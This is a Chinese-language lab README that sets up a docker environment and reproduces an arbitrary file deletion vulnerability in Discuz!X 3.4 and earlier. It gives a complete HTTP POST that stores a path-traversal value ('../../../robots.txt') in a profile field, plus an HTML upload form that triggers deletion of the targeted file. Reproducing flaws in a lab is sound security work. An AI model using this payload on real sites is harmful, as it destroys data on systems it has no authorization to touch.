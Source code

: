 # Discuz!X ≤3.4 任意文件删除漏洞

影响版本：Discuz!X ≤3.4

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

## 启动环境

执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

安装时，只用修改数据库地址为`db`，其他保持默认即可：

![](1.png)

## 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](2.png)

注册用户后，在个人设置页面找到自己的formhash：

![](4.png)

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![](5.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](6.png)
